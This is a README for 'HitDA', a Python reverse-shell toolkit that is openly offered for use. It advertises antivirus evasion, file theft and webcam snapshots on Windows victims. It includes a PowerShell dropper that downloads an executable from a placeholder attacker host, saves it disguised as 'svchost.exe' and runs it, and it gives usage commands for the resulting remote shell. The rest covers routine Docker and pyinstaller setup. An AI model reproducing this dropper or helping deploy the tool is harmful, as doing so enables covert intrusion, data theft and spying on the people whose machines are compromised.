 # HitDA
HitDA is a Multi-Function utilization script based on Reverse Shell write in Python3 for Kali Linux.
It's not a meterpreter, so it is easy to bypass the **AV-Software**.You can use it like a 
reverse shell, but it also provides some powerful functions which are similar to Meterpreter.
Like **File Download/Upload**, **Webcam snapshot**, I will continue to add more function
 later.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```
When you choose 0, you can choose the script with webcam snap function
or not, the webcam function will increase the file size to about
**50MB**, otherwise, it's about **5MB**. You can also use the **powershell** 
script to automate download the script and execute, it will be more
anonymous and customizable. Like:
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use battoexe to generate a small exe file.

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can use some command like

Download the specified remote file and save as local filename 
```
download remote_filename local_filename
```

Webcam snapshot and save as filename
```
webcam_snap filename
```

There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```
You can also use the powershell for more powerful command


